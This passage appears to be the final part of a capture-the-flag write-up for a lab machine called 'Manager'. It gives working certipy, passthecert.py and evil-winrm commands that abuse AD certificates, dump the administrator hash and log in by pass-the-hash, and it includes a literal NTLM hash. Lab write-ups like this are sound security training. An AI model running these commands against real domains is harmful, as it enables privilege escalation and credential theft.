 Passthecert (Python) which can be used to conduct multiple techniques like elevate a user for DCsync or change password for a specific user.

```bash
ertipy cert -pfx "administrator.pfx" -nokey -out "user.crt"

certipy cert -pfx "administrator.pfx" -nocert -out "user.key"

passthecert.py -action modify_user -crt "user.crt" -key "user.key" -domain "manager.htb" -dc-ip "10.10.11.236" -target "raven" -elevate
```

You can try to authenticed on the DC with certipy and dump the administrator hash : 

```xml
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 -username administrator -domain manager.htb
```

![Untitled](assets/Manager/Admin-hash.png)

PS if you have a probleme with kerberos clock use ntpdate : `ntpdate -u domain`

You can now use pass the hash technique to authenticate on the DC ! 

`evil-winrm -u "Administrator" -H 'ae5064c2f62317332c88629e025924ef' -i "10.10.11.236”`

Lets GOOOO manager Pwned ! 😼

**Sources for Foothold :** 

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
- https://exploit-notes.hdks.org/exploit/database/mssql-pentesting/

**Sources for Privesc :** 

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2
- https://www.thehacker.recipes/ad/movement/ad-cs/access-controls#certificate-authority-esc7
